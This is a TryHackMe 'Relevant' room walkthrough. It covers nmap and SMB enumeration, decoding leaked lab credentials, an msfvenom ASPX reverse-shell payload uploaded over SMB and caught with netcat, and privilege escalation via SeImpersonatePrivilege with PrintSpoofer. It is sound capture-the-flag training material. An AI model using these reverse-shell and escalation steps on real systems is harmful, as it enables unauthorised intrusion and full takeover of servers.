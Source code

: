## Relevant
---
THM Relevant Room Walkthrough: https://tryhackme.com/room/relevant

## Summary
---
- nmap
- smb share open --> nt4wrksv
- passwords.txt
- port 49663 open --> subdomain /nt4wrksv accessible
- smb allows for upload and download of files (get/put) --> can upload a reverse shell and then access through browser
- catch reverse shell --> user flag
- find user flag
- check whoami & whoami /priv --> SeImpersonatePrivilege enabled is a major security concern
- use JuicyPotato or PrintSpoofer to escalate
- Upload [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and run as instructed
- whoami --> 
## Walkthrough
---
Let's first begin by enumerating the machine with nmap. We will run nmap with

```bash
nmap -sS -sV -sC -Pn  <TARGET_IP>
```

![](attachments/Screenshot%202025-02-01%20160003.png)

We can see we have 5 open ports. It's good to keep in mind we only scanned the default number of ports with nmap, which by default should be the 1000 most popular ports.

The 3 most interesting ports we have here are 80, 445, and 3389. (Webserver, SMB shares, RDP access)

Let's start by looking into these. The webserver seems to host this page: 

![](attachments/Screenshot%202025-02-01%20160429.png)

The first thing I think of when I see this and port 445 open is a possible EternalBlue exploit depending on the version of Windows Server.

The only other thing on this website is a link to https://www.iis.net/?utm_medium=iis-deployment with no other interesting information. There may also be something hidden in the image, but let's not get too deep.

Let's check the SMB port, 445. We will use smbclient with the command

```bash
smbclient -L //10.10.71.74
```

We see we have some shares available. We have 3 hidden shares indicated by the $ and then a regular share. 

![](attachments/Screenshot%202025-02-01%20161102.png)

Let's try to connect to them anonymously without passing a -U (User) param.

![](attachments/Screenshot%202025-02-01%20161728.png)

I was able to connect to the IPC share and the last share. I would not expect to find anything in the IPC share because it's used for Inter-Process Communication and not file storage. What's interesting is we were able to see that the last share nt4wrksv actually has a file in it. Let's download it and check it out.

![](attachments/Screenshot%202025-02-01%20162800.png)

We see that we have some encoded passwords. It looked like Base64 was used to encode them so let's decode them to see if we have anything here.

![](attachments/Screenshot%202025-02-01%20163104.png)

We get a username and some passwords! 

```bash
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123 
```

The only place I can think to use them is RDP since that port is also open. Let's try. 

RDP does not seem to work with either password and just fails or freezes.

![](attachments/Pasted%20image%2020250201170439.png)

At this point I was feeling a bit stuck. Let's maybe try to enum the subdirectories and then let's look at SMB again. Maybe we can exploit something there. 

Running Gobuster gives us nothing interesting in terms of directories and takes very long. I used directory-list-2.3-medium.txt

The machine became unresponsive which was common in this lab and I had to restart it. I ran MS17-010 SMB RCE Detection to see if maybe the system is vulnerable to EternalBlue. The result told me that the host is likely vulnerable to it, so I tried running EternalBlue.

![](attachments/Pasted%20image%2020250201172528.png)

It did not work and again froze the system. 

The only thing I can think of is to nmap all the ports instead of just the 1000 most popular ports. This also takes very long.

![](attachments/Pasted%20image%2020250201174152.png)

Interesting find. We have 3 extra ports that we missed. We have a webserver at 49663. Let's see what we can find if we go to it in a browser.

Weird. It takes us to the same page. Let's just try to check the other ports as well. I would not expect to find anything since they are RPC ports according to nmap.

![](attachments/Pasted%20image%2020250201192451.png)

As expected the other 2 ports don't resolve.

The image takes us to the same link as the last image and other than the port, it looks identical to the page on port 80. Let's try to enumerate subdirectories with the new port.

This box is extremely slow and freezes often, requiring reboots. I found a subdirectory matching the SMB share (/nt4wrksv) that loads an empty page. Since it may access the same directory, I checked for passwords.txt via the browser—and it worked. If I can upload files, I might get a reverse shell. Time to generate and upload one.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.101.68 LPORT=4444 -f aspx -o rev.aspx
```

Generated a rev shell with MSFVenom. We know it's a windows server using IIS, we should maybe be able to use aspx, asp, or php.Uploading this with the smbclient and accessing this through the web server. Setting up an nc listener on port 444.

```bash
smbclient //10.10.219.157/nt4wrksv
put rev.aspx
exit

nc -lvp 4444
```

Accessing the webserver with the rev shell takes a second, but we are in!

![](attachments/Pasted%20image%2020250201195449.png)
 
 Navigating to the Users directory and then Bob>Desktop gives us our first flag!

![](attachments/Pasted%20image%2020250201195710.png)

Checking whoami and whoami /priv we get 

![](attachments/Pasted%20image%2020250201202051.png)

The SeImpersonatePrivilege Priv being enabled is a major issue based on my research. We can use something like JuicyPotato or PrintSpoofer to escalate. Let's try Printspoofer since we can easily upload files with SMB.

![](attachments/Pasted%20image%2020250201203400.png)

Priv has been escalted. Found the root flag in C:\Users\Administrator\Desktop\root.txt

![](attachments/Pasted%20image%2020250201203643.png)


